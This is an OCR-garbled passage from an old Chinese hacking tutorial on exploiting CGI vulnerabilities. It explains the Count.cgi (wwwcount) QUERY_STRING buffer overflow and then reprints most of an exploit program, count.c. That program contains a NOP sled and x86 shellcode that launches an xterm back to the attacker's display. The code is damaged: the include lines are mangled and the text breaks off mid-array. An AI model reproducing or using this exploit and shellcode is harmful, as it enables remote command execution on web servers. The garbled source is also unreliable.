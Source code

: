 AUTH_TYPE? =
CONTENT_TYPE? =
CONTENT_LENGTH? =?
显示了/CGI-BIN/目录下的东西。
CGI漏洞的利用（二）
CGI漏洞向来是容易被人们忽视的问题，同时也是普遍存在的，前不久攻破PCWEEK? LINUX的黑客就

是利用了CGI的一个漏洞。我就自己所知道的和从外国站点看来的一些CGI漏洞来写一些利用CGI的攻

击方法，水平有限写得不对的地方请来信告诉我：<a href="mailto:bamboo@kali.com.cn">bamboo@kali.com.cn</a>?
四、Count.cgi溢出漏洞?
Count.cgi（wwwcount）是国外网站经常用的CGI网页计数程序，国内很少有人用它，不过还是有一

些网站的CGI-BIN目录下有它，简单说一下它的原理以及利用方法。
出现问题主要是由于QUERY_STRING? 环境变量被复制到一个活动缓冲区，造成溢出，允许远程用户

以HTTP管理员的身份执行任意命令。
有人写了个程序来利用这个漏洞，只对Count.cgi? 24以下版本有效：
/*###? count.c? ########################################################*/
＃i nclude?
＃i nclude?
＃i nclude?
＃i nclude?
＃i nclude?
＃i nclude?
＃i nclude?
＃i nclude?
＃i nclude???
/*? Forwards? */
unsigned? long? getsp(int);
int? usage(char? *);
void? doit(char? *,long,? char? *);?
/*? Constants? */
char? shell[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xeb\x3c\x5e\x31\xc0\x89\xf1\x8d\x5e\x18\x88\x46\x2c\x88\x46\x30"
"\x88\x46\x39\x88\x46\x4b\x8d\x56\x20\x89\x16\x8d\x56\x2d\x89\x56"
"\x04\x8d\x56\x31\x89\x56\x08\x8d\x56\x3a\x89\x56\x0c\x8d\x56\x10"
"\x89\x46\x10\xb0\x0b\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xbf"
"\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff"
"\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff"
"/usr/X11R6/bin/xterm0-ut0-display0";
char? endpad[]=
"\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff"
